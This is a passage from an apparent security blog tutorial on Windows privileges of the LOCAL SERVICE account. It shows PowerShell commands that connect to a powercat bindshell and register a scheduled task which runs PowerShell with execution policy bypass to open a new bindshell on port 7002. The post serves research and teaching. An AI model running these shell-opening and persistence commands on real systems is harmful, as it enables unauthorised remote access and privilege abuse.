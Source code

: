 Be careful, it won't tell you whether it succeeded or not so you should check your command twice before running it. Once it's done, we can use `powercat` in "client mode" to connect to the bindshell.

```powershell
. .\powercat.ps1
powercat -c 127.0.0.1 -p 7001
```

![](/assets/posts/2019-12-05-localservice-privileges/05_localservice-bindshell.png)

Nice! :thumbsup: We have a shell in the context of `NT AUTHORITY\LOCAL SERVICE` and as you can see we have only two privileges. We can therefore start working from this prompt. 


## The Task Scheduler Has Got Your Back!

Any user can create its own scheduled tasks in Windows and `NT AUTHORITY\LOCAL SERVICE` is no exception to this rule. By default, the account used to run a Task is the same as the Task's "author". The scheduled task creation process is done through a series of local (or remote) RPC calls but I won't go into detail about this. 

Let's see what happens when we create a task in the context of a `LOCAL SERVICE` account. This can be achieved in three simple steps using PowerShell.

First, we need to create an `Action` object for the task. That's where you specify the program/script to execute along with some optional arguments. Here, we want to open a bindshell on port 7002 so we will use the following command.

```powershell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `". C:\TOOLS\powercat.ps1; powercat -l -p 7002 -ep`""
```

Then, you can "register" the task and start it manually.

```powershell
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask"
Start-ScheduledTask -TaskName "SomeTask"
```

![](/assets/posts/2019-12-05-localservice-privileges/06_localservice-create-task.png)
